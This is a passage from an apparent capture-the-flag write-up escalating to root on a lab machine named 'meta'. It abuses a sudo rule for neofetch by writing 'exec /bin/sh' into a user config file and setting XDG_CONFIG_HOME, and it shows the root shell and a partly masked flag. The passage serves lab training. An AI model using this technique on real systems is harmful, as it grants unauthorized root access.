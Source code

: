 At the very top of the file, it sets `XDG_CONFIG_HOME=${XDG_CONFIG_HOME:-${HOME}/.config}`. That means if `XDG_CONFIG_HOME` isn’t set, it will set it using the `$HOME` variable, which explains the documentation.

#### Exploit

I’ll write the `exec` line from GTFObins into the config:

```

thomas@meta:~$ echo 'exec /bin/sh' > .config/neofetch/config.conf 
thomas@meta:~$ XDG_CONFIG_HOME=~/.config sudo neofetch
# id
uid=0(root) gid=0(root) groups=0(root)
# bash
root@meta:/home/thomas#

```

If I run without explicitly setting `$XDG_CONFIG_HOME`, it doesn’t do anything:

```

thomas@meta:~$ sudo neofetch
       _,met$$$$$gg.          root@meta 
    ,g$$$$$$$$$$$$$$$P.       --------- 
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64 
 ,$$P'              `$$$.     Host: VMware Virtual Platform None 
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64 
`d$$'     ,$P"'   .    $$$    Uptime: 13 hours, 37 mins 
 $$P      d$'     ,    $$P    Packages: 495 (dpkg) 
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3 
 $$;      Y$b._   _,d$P'      CPU: AMD EPYC 7302P 16- (2) @ 2.994GHz 
 Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter 
 `$$b      "-.__              Memory: 152MiB / 1994MiB 
  `Y$$
   `Y$$.                                              
     `$$b.
       `Y$$b.
          `"Y$b._
              `"""

```

But with `$XDG_CONFIG_HOME` set, it returns a shell:

```

thomas@meta:~$ XDG_CONFIG_HOME=~/.config sudo neofetch
# id
uid=0(root) gid=0(root) groups=0(root)
# bash
root@meta:/home/thomas#

```

And I can grab `root.txt`:

```

root@meta:~# cat root.txt
ddaefee6************************

```